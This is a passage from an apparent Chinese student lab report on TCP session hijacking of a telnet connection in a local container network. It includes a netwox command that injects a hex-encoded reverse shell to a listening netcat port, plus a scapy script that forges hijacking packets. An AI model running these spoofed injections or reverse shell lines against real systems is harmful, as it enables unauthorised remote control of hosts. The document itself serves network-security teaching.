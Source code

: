 ### 3.3.2 反向`shell`

- 该攻击过程中的`Wireshark`数据见`3.2.利用netwox工具进行攻击(反向shell).pcapng`
- 具体步骤与普通命令的会话劫持相似，不同是在攻击前应先在攻击机使用`netcat`在指定端口进行监听，将攻击报文的数据换为反向`shell`对应的指令编码即可
- 首先使用户机使用`telnet`连接服务机，同时使用`Wireshark`截取报文，以下为服务机向客户机发送的最后一个报文
  ![3.3.6.服务机向客户机发送的最后一个报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121216514.png)
- 在攻击机的`11803`端口开启监听：`nc -l 11803 -v`，然后攻击机使用`netwox`攻击：`sudo netwox 40 --ip4-src 172.17.0.2 --ip4-dst 172.17.0.3 --tcp-src 51722 --tcp-dst 23 --tcp-seqnum 316185969 --tcp-acknum 3699656223 --tcp-ack --tcp-window 227 --tcp-data 0d2F62696E2F62617368202D69203E202F6465762F7463702F3137322E31372E302E312F313138303320303C263120323E26310d00`，其中数据为`\r/bin/bash -i > /dev/tcp/172.17.0.1/11803 0<&1 2>&1\r`的编码
  ![3.3.7.攻击机使用netwox攻击](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121216010.png)
- 攻击后攻击机的`nc`即可获得服务机的`shell`，攻击成功
  ![3.3.8.攻击后攻击机的nc即可获得服务机的shell，攻击成功](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121216690.png)
- `netwox`发送的攻击报文如下
  ![3.3.9.scapy发送的攻击报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121216462.png)
- 追踪反向`shell`的`TCP`流如下，与攻击机发送的指令与结果相同
  ![3.3.10.反向shell的TCP流](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121216231.png)
- 观察和解释：你的攻击是否成功？你怎么知道它是否成功？你期待看到什么？你观察到了什么？观察结果是你预想的那样吗？
  - 攻击成功；
  - 用户机的`telnet`连接卡死、攻击机的`nc`获得服务机的`shell`且`Wireshark`拦截到相应的攻击报文和攻击机与服务机之间的`TCP`流数据；
  - 期待看到用户机的`telnet`连接卡死、攻击机的`nc`获得服务机的`shell`且`Wireshark`拦截到相应的攻击报文和攻击机与服务机之间的`TCP`流数据；
  - 观察到了用户机的`telnet`连接卡死、攻击机的`nc`获得服务机的`shell`且`Wireshark`拦截到相应的攻击报文和攻击机与服务机之间的`TCP`流数据；
  - 是。

## 3.4 用`scapy`手动攻击

### 3.4.1 普通命令

- 该攻击过程中的`Wireshark`数据见`3.3.利用scapy手动攻击.pcapng`

- 首先使用户机使用`telnet`连接服务机，同时使用`Wireshark`截取报文，观察服务机向客户机发送的最后一个报文，根据报文中的源`IP`、源端口、目的`IP`、目的端口、窗口大小，并将报文的`Ack`作为攻击报文的`Seq`、将报文的`Next sequence number`（即`Sequence number + TCP Segment Len`）作为攻击报文的`Ack`构造攻击报文，服务机向客户机发送的最后一个报文如下
  ![3.4.1.服务机向客户机发送的最后一个报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121238182.png)

- 根据以上报文构造攻击程序`hijacking_manual_simple.py`如下

  ```python
  #!/usr/bin/python3
  from scapy.all import *
  
  print("SENDING SESSION HIJACKING PACKET.........")
  ip = IP(src="172.17.0.2", dst="172.17.0.3")
  tcp = TCP(sport=51756, dport=23, flags="A", seq=3581025435, ack=1190321684)
  data = "\rls\r"
  pkt = ip/tcp/data
  send(pkt, verbose=0)
  ```
